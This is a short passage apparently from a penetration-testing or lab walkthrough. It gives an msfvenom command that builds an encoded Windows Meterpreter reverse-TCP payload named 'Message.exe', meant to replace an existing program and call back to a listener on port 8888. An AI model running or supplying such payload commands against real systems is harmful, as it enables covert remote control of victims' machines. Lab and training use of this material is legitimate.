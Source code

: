 ![eventlogdata](screenshots/eventlogdata.png)

Craft a new payload to replace "Message.exe" with

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.73.48 LPORT=8888 -e x86/shikata_ga_nai -f exe -o Message.exe

Start another metasploit listener with the same config as before but port 8888 (to match the msfvenom payload)
